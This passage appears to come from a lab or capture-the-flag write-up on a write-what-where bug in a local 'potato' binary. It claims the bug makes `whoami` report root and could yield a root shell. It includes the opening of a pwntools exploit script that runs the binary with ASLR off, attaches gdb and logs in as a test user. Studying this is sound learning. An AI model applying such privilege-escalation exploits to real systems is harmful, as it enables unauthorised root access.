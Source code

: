 ![www1](./write_what_where2.png)

After the deletion completed, `whoami` will show "root" as the logged in user, which - in theory - allows
to create a root shell.

```python
#!/usr/bin/env python3

from pwn import *

import sys

elf = ELF("./potato")

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(p, '''
break userlist.c:84
continue
''')

print(p.recvuntil(b"cmd> ")) # username
p.sendline(b"login")
# test user
p.sendline(b"peter")
p.sendline(b"12345")
print(p.recvuntil(b"cmd> ")) # username
```